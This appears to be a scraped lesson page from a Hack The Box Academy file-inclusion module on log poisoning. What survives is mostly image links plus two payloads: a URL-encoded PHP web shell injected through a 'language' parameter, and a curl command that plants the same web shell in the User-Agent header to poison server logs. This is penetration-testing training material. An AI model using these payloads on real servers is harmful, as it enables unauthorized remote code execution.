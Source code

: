 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/23/section/252
// Platform Version: V1
// Module ID: 23
// Module Name: File Inclusion
// Module Difficulty: Medium
// Section ID: 252
// Section Title: Log Poisoning
// Page Title: Hack The Box - Academy
// Page Number: 8
-->

# Log Poisoning

**Module Name:** File Inclusion **Page Number:** 8

#### 

#### FILE INCLUSION

# Log Poisoning

## PHP Session Poisoning

![https://academy.hackthebox.com/storage/modules/23/rfi_cookies_storage.png](https://academy.hackthebox.com/storage/modules/23/rfi_cookies_storage.png)

![https://academy.hackthebox.com/storage/modules/23/rfi_session_include.png](https://academy.hackthebox.com/storage/modules/23/rfi_session_include.png)

``` url
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```

![https://academy.hackthebox.com/storage/modules/23/lfi_poisoned_sessid.png](https://academy.hackthebox.com/storage/modules/23/lfi_poisoned_sessid.png)

``` url
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

![https://academy.hackthebox.com/storage/modules/23/rfi_session_id.png](https://academy.hackthebox.com/storage/modules/23/rfi_session_id.png)

## Server Log Poisoning

![https://academy.hackthebox.com/storage/modules/23/rfi_access_log.png](https://academy.hackthebox.com/storage/modules/23/rfi_access_log.png)

![https://academy.hackthebox.com/storage/modules/23/rfi_repeater_ua.png](https://academy.hackthebox.com/storage/modules/23/rfi_repeater_ua.png)

![https://academy.hackthebox.com/storage/modules/23/rfi_cmd_repeater.png](https://academy.hackthebox.com/storage/modules/23/rfi_cmd_repeater.png)

``` shell-session
ndefstathiou@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
```

![https://academy.hackthebox.com/storage/modules/23/rfi_id_repeater.png](https://academy.hackthebox.com/storage/modules/23/rfi_id_repeater.png)

# 

# 

#### Questions

####